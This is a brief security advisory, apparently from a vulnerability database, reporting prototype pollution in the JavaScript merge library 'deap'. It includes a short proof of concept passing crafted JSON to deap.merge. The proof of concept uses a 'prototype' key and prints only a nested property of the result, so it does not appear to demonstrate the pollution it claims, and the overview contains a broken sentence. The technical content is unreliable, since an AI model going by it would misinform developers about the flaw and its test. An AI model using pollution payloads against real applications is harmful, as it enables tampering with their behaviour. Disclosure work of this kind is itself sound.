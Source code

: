 # Overview
`deap` is a library for extending and merging objects, deep or shallow, in javascript.

Affected versions of this package are vulnerable to Prototype Pollution. The `utilities` function. It can be tricked into modify the prototype of "Object" when the attacker control part of the structure passed to these function. 
This can let an attacker add or modify existing property that will exist on all object. Hence causing the prototype pollution.

# Proof of Concept
```js
var deap = require('deap');

var obj = deap.merge({}, JSON.parse('{ "testProperty": "hi", "prototype" : { "status" : "pwned!" } }'));
console.log(obj.prototype.status);
```
